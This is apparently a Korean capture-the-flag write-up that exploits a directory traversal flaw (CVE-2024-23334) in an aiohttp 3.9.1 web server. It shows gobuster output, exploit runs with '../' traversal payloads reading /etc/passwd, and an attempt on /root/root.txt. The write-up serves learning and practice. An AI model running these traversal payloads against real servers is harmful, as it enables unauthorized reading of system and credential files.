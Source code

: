 인스펙션을 통해 웹서버가 aiohttp 3.9.1인 것을 확인한다.

취약점을 검색해보니 다음과 같은 내용을 확인했다.

[디렉토리 트래버설](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0)

변수에 넘겨줄 값을 찾기 위해 gobuster를 실행.

```bash
/assets               (Status: 403) [Size: 14]       
```
assets라는 디렉토리가 하나 나왔다.

익스플로잇을 실행해본다.
```bash
python3 exploit.py -u http://127.0.0.1:8080 -f /etc/passwd -d /assets
[+] Attempt 0
Payload: /assets/../etc/passwd
Status code: 404
[+] Attempt 1
Payload: /assets/../../etc/passwd
Status code: 404
[+] Attempt 2
Payload: /assets/../../../etc/passwd
Status code: 200
Respose:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
```

작동한다.

root의 플래그만 알면 되기 때문에 굳이 복잡하게 가지 않고 플래그만 획득한다.
```bash
python3 [exploit.py](http://exploit.py/) -u [http://127.0.0.1:8080](http://127.0.0.1:8080/) -f /root/root.txt -d /assets

[+] Attempt 0

Payload: /assets/../root/root.txt

Status code: 404

[+] Attempt 1

Payload: /assets/../../root/root.txt

Status code: 404

[+] Attempt 2

Payload: /assets/../../../root/root.txt

Status code: 200

Respose:

```